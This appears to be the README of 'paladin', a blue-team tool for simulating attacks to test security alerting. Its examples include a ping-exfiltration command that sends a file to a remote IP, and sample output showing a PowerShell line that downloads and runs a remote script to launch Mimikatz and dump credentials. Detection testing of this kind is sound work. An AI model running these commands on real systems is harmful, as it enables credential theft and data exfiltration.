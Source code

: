 <p align="center"> 
  <img src="images/logo.png" width="250" title="paladin" align="center">
  <p align="center">A blueteam tool to simulate attacks using Atomic Red Team and other techniques.</p>
</p>

---

## Getting started

### Ping Exfil

The ping exfil subcommand is working and implements a basic ping exfil attack scenario.
```
Run ping exfil like tests on current host

Usage:
  paladin exfil ping [flags]
  paladin exfil ping [command]

Available Commands:
  receive     Packet capture ping requests and reassemble files

Flags:
  -d, --destination string   The Destination Host of the Ping
  -f, --file string          The name of the file to send over ping
  -h, --help                 help for ping

Use "paladin exfil ping [command] --help" for more information about a command.
```
#### Basic Usage
Client

```console
$ paladin exfil ping -d 45.63.67.242 -f test.txt
```

Server
```console
$ paladin exfil ping receive -i ens3
```
### Atomic Red Team
The atomic red team repo is pulled then stored into a statik fs within the binary. Some tests are not working since this is still WIP.

```
Run Atomic red team attacks to test security alerting
tests can be found here https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/index.md

Usage:
  paladin art [flags]

Flags:
  -a, --atomic string   Atomic technique to run..ie T1003
  -h, --help            help for art
```
#### Basic Usage
```console
$ bin/paladin art -a T1003
INFO[0000] Running atomic attack T1003
INFO[0000] Opening /T1003/T1003.yaml
INFO[0000] Would You Like to Run This Attack?
Powershell Mimikatz
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds

Use the arrow keys to navigate: ↓ ↑ → ←
? Select[Yes/No]:
  ▸ Yes
    No
```

### DNS Exfil
WIP

### Infection Gopher
WIP

## Local Development

This project requires Go to be installed. On OS X with Homebrew you can just run `brew install go`.

Building locally requires statik 

```console
$ go get github.com/rakyll/statik
```

Running it then should be as simple as:

```console
$ make
$ ./bin/paladin
```